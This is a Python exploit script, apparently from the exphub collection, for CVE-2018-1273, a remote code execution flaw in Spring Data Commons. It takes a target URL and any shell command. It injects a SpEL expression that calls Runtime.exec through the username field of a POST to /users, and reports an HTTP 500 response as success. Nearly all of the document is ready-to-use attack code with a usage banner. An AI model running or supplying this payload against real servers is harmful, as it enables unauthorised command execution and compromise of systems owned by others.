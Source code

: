 #!/usr/bin/python3
#-*- coding:utf-8 -*-
# author:zhzyker
# from:https://github.com/zhzyker/exphub
# telegram:t.me/zhzyker

import requests
import sys

if len(sys.argv)!=3:
    print('+----------------------------------------------------------------------------+')
    print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                       +')
    print('+      Spring Data Commons Remote Code Execution (No display)                +')
    print('+----------------------------------------------------------------------------+')
    print('+ USE: python3 cve-2018-1273_cmd.py <url> "<cmd>"                            +')
    print('+ EXP: python3 cve-2018-1273_cmd.py http://1.1.1.1:8080 "touch /tmp/exphub"  +')
    print('+ VER: Spring Data Commons 1.13 to 1.13.10                                   +')
    print('+      Spring Data Commons 2.0 to 2.0.5                                      +')
    print('+----------------------------------------------------------------------------+')
    sys.exit()
    
url = sys.argv[1]
cmd = sys.argv[2]
vuln = url + "/users"  

headers = {
    'Host': "localhost:8080",
    'Connection': "keep-alive",
    'Content-Length': "120",
    'Pragma': "no-cache",
    'Cache-Control': "no-cache",
    'Origin': "http://localhost:8080",
    'Upgrade-Insecure-Requests': "1",
    'Content-Type': "application/x-www-form-urlencoded",
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36",
    'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
    'Referer': "http://localhost:8080/users?page=0&size=5",
    'Accept-Encoding': "gzip, deflate, br",
    'Accept-Language': "zh-CN,zh;q=0.9,en;q=0.8"
    }
    
payload = "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('%s')]=&password=&repeatedPassword=" % cmd

try:
    r = requests.post(vuln, data=payload, headers=headers)
    if r.status_code == 500:
        print ("[+] Code executed successfully")
    else:
        print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
except:
    print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
